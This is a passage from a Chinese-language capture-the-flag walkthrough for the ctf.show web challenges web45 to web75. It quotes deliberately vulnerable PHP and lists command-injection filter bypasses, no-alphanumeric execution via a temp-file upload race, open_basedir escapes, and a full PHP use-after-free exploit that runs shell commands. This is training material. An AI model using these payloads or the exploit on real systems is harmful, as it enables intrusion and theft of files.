tac f*||

...
//记得转url编码
```

#### web45

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:35:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| /i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了`;|cat|flag`和空格

可以用%09或$IFS$9代替空格

```
tac%09fl*%0a

or

tac%09f*||

or

echo$IFS`tac$IFS*`%0A

...
//记得转url编码
```

#### web46

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

 过滤有点多啊

> \;|cat|flag| |[0-9]|\\$|\*

但是事实上我们上题使用的方法并不会受到影响，因为%09是url编码，不会被当成数字过滤

```
tac%09fl*%0a

or

tac%09f*||

or

tac<f*||

//记得转url编码
```

#### web47

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤这么多O.o？

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail

但是幸好我用的是tac

```
tac%09fl*%0a

or

tac%09f*||

or

tac<f*||

//记得转url编码
```

#### web48

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤更多了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`

```
tac%09fl??.php%0a

or

tac%09fl??.php%7c%7c 
//记得转url编码
```


#### web49

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:22:43
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%

虽然过滤了%但是是不影响我们传入的url编码的

```
tac%09fl??.php%0a

or

tac%09fl??.php%7c%7c 
```


#### web50

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:32:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26

坏，没法用%09代替空格，没法用?代替字符

不过幸好还有<和''

```
tac<fla%27%27g.php||
or
tac<fla%27%27g.php%0a
```

#### web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:42:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/

怎么把我tac也过滤了

没事能绕过

```
t%27%27ac<fla%27%27g.php||
or
t%27%27ac<fla%27%27g.php%0a
```

#### web51

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:50:30
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\<

我测怎么连< >都要过滤

别忘了还可以用$IFS

```
ca%27%27t$IFS/fla%27%27g||
or
ca%27%27t$IFS/fla%27%27g%0a
```

#### web52

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 18:21:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        echo($c);
        $d = system($c);
        echo "<br>".$d;
    }else{
        echo 'no';
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

> \;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</

这题没有在后面进行命令拼接，其他和上一题一样

```
c%27%27at${IFS}fla%27%27g.php
```

#### web54

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 19:43:42
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

这题过滤了很多命令,题目通过*使得只要是传入的内容出现如cat三个字符即可被匹配到，无法使用之前的字符拼接方法绕过

这题没过率通配符?

解一

```
/bin/?at${IFS}f???????
```

cat命令所在的路径是在/bin/目录下，所以这里相当于直接调用了cat文件执行命令，这里的cat可以看作命令，也是一个文件，所以通配符可以用在这上面（一开始还傻傻的换成uniq看能不能用hhh）。

bin下的命令：[Linux /bin 目录下命令简要说明 - 崔旗 - 博客园](https://www.cnblogs.com/cuiqi1314/articles/7339776.html)

同理bin目录下还存在more，所以这里的cat我们换成more也可以读取flag。
解二

```
vi${IFS}fla?.php 
or
c=uniq${IFS}f???.php //倒序的
or
grep${IFS}%27fla%27${IFS}f???????%0a
```


#### web55

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 20:03:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

过滤了

```
\;|[a-z]|\`|\%|\x09|\x26|\>|\</
```

这题涉及到一个知识点

也就是**无字母数字的命令执行**

https://blog.csdn.net/qq_46091464/article/details/108513145

https://blog.csdn.net/qq_46091464/article/details/108557067

[无字母数字webshell之提高篇 | 离别歌](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

思路

> 1. shell下可以利用`.`来执行任意脚本
> 2. Linux文件名支持用glob通配符代替

我们可以通过post一个文件(文件里面的sh命令)，在上传的过程中，通过`.(点)`去执行执行这个文件。(形成了条件竞争)。一般来说这个文件在linux下面保存在`/tmp/php??????`一般后面的6个字符是随机生成的有大小写。（可以通过linux的匹配符去匹配）

> ```
> 注意：通过`.`去执行sh命令不需要有执行权限
> ```


1.构造post数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://f3a86e62-7402-4d1d-b950-0d6da4aa4eab.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

在上传的文件里面写入sh指令

```sh
#!/bin/sh
ls
```


2.抓包


3.构造执行sh命令的poc

详细解释poc的构造：

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html#glob

我们这里可以理解为我们这道题里面的干扰文件名都是由小写字母组成的，所有文件名都是小写，只有PHP生成的临时文件包含大写字母，那我们就可以构造出如下的poc

```
?c=.+/???/????????[@-[]
```

注：后面的`[@-[]`是linux下面的匹配符，是进行匹配的大写字母。


我们就来吧


修改一下指令内容即可得到flag


#### web56

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

> \;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\<

这题相比上一题多过滤了一个数字，不影响我们上题的解题方法

这里不再赘述

放个大佬的脚本

```python
import requests

while True:
	url = "http://a88c904d-6cd4-4eba-b7e9-4c37e0cf3a7d.chall.ctf.show/?c=.+/???/????????[@-[]"
	r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
	if r.text.find("flag") > 0:
		print(r.text)
		break

```

#### web57

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-08 01:02:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
}
```

过滤条件增加

> \;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/

这道题把`?`过滤了，但是我们可以看到

```
system("cat ".$c.".php");
```

这题会将我们传入的get参数进行拼接后再执行

题目里有个暗示

```
//flag in 36.php
```

也就是说我们要用符号构造出36

我们可以利用linux的$(())构造出36

在linux里面$(())=0，$((~ $(()) ))=-1

其中~符号表示取反，这里0的取反等于－1

也就是我们先将36个-1加起来再取反得到我们需要的36

payload:

```
c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```


从而得到flag


#### web58

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

payload:

```
c=highlight_file("flag.php");
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php //文件包含，得到的回显需要进行base64解码
c=show_source('flag.php');
```


#### web59

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

解法与上题一致，不再赘述

（没搞懂两题有什么区别）

#### web60

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

解法依旧与web58一致

可能我太菜了看不出有什么区别

#### web61

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧web58

#### web62

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧...

#### web62

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧......

#### web63

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

依旧......


#### web64

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

嘶，怎么还是那样...


#### web65

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

同上...

#### web66

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

本来以为还是一样的，没想到...


看来我们要想办法查目录了

我们可以尝试利用php中查询目录的函数

比如 scandir()


```
var_dump(scandir('/'));
```


接下来就是查flag，可以通过文件包含来查


flag.txt前面记得加上/

#### web67

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

这题解法与web66一致

#### web68


这题貌似只是show_source和highlight_file用不了，其他没什么变化

可以直接用前两题的方法

也可以直接

```
c=include('/flag.txt') //赌
```

#### web69


这题相比上一题，print_r() 和 var_dump() 也被禁用了

我们可以通过寻找其他可以打印数组的函数来打印目录

我们可以通过var_export()来代替，从而打印目录

```
c=var_export(scandir("/"));
```


接下读flag即可

```
c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=/flag.txt
```


其他的解法：

查文件

```
?c=echo implode(",",(scandir('/'))); 
?c=echo json_encode(scandir("/"));
```

读文件

```
?c=readgzfile('/flag.txt');
```


#### web70


这题把error_reporting()和ini_set()禁用了

虽然不知道有什么用，不影响我用上一题的方法读flag

#### web71

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

- `$s = ob_get_contents();`：获取输出缓冲区的内容并赋值给变量`s`。输出缓冲区在 PHP 中用于临时存储要输出到浏览器等的内容，以便在合适的时候进行处理或修改。

- `ob_end_clean();`：清空输出缓冲区并关闭它，这样就清除了原始的、未经处理的输出内容，以便后续进行自定义的输出处理。
- `echo preg_replace("/[0-9]|[a-z]/i","?",$s);`：这行代码使用正则表达式对获取到的输出内容（存储在`s`中）进行替换操作。它会将所有的数字和字母（不区分大小写）都替换为`?`，然后将处理后的内容输出到浏览器等输出端。

也就是说这道题会对回显进行处理，让我们没法得到回显

我们可以用exit()/die()提前结束程序，从而不执行后续代码直接进行回显

```
c=var_export(scandir("/"));exit();
```


```
c=readgzfile('/flag.txt');exit();
```


#### web72

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Lazzaro
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>

你要上天吗？
```

这道题一开始还以为和上一题差不多


先进行目录查询

```
c=var_export(scandir("./"));exit();
```

注意⚠️ 这道题只有权限查询的当前目录也就是`./`

而无法访问到其他目录的文件，如 / 根目录

> 尝试使用 scandir() 函数来扫描根目录，但由于 open_basedir 限制，这个操作被禁止了。
> open_basedir 是 PHP 的一个安全配置指令，用来限制 PHP 脚本只能访问特定的目录。
> 当前配置只允许访问 /var/www/html/ 目录及其子目录，但不允许访问其他目录。
>
> 原文链接：https://blog.csdn.net/Myon5/article/details/140079942

我们可以尝试用glob协议绕过open_basedir协议

payload:（记得删注释）

```php
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```


或者

payload：（记得删注释）

```php
c=?><?php $a = opendir("glob:///*"); // 打开根目录，并将目录句柄赋值给$a
while (($file = readdir($a)) !== false) { // 循环读取目录中的每个条目
    echo $file . "<br>"; // 输出每个条目的名称，并添加HTML换行标签
};
exit(0); // 终止脚本执行
?>
```

我们可以发现flag0.php

利用uaf的脚本进行命令利用uaf的脚本进行命令执行执行：

尝试执行ls /; cat /flag0.txt命令

```php
c=?><?php
pwn("ls /;cat /flag0.txt");
 
function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
 
    class Helper {
        public $a, $b, $c, $d;
    }
 
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
 
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf('%c',$ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
 
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf('%c',$v & 0xff);
            $v >>= 8;
        }
    }
 
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
 
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
 
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
 
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
 
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
 
        if(!$data_addr || !$text_size || !$data_size)
            return false;
 
        return [$data_addr, $text_size, $data_size];
    }
 
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
 
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
 
            return $data_addr + $i * 8;
        }
    }
 
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
 
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
 
            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
 
    function trigger_uaf($arg) {
        # str_shuffle prevents opcache string interning
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
 
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
 
    $n_alloc = 10; # increase this value if UAF fails
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
 
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
 
    $helper = new Helper;
    $helper->b = function ($x) { };
 
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
 
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
 
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
 
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
 
    $closure_obj = str2ptr($abc, 0x20);
 
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
 
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
 
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
 
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
 
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
 
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
 
    ($helper->b)($cmd);
    exit();
}
?>

```

记得要转url


##### 所以什么是uaf呢？

（先挖个坑回头补）

#### web73

这一题和上一题的区别其实就是flag的文件改名了，我们用上一题的方法读一下文件

```
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```


可以看到一个flagc.txt文件

这题其实已经关闭了open_basedir，所以我们也可以用之前的方法读

```
var_export(scandir('/'));exit();
```

```
echo(implode(' ',scandir('/')));exit();
```

读文件的话上一题的uaf方法被ban了，这题用不了

所以我们还是用之前方法

```
c=readgzfile('/flagc.txt');exit();
```


#### web74


这题我先用之前的方法var_export试试能不能读到目录，发现显示null，应该是open_basedir打开了


接着用glob协议的方法读到了，flag文件名叫做flagx.txt

先用uaf的方法试试


发现这条路被ban掉了


最后用

```
c=readgzfile('/flagx.txt');exit();
```

成功查到了flag

#### web75


这题要用glob查文件，用var_export查不了

接下来是读文件

尝试了uaf和readgzfile之类的方法都失败了

没办法看看大佬怎么做的

我们其实可以用到mysql的load_file方法，从而读到flag

payload:

```php
c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit();
```

豆包解释一下

> 1. 数据库连接：
>    - `$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining");`
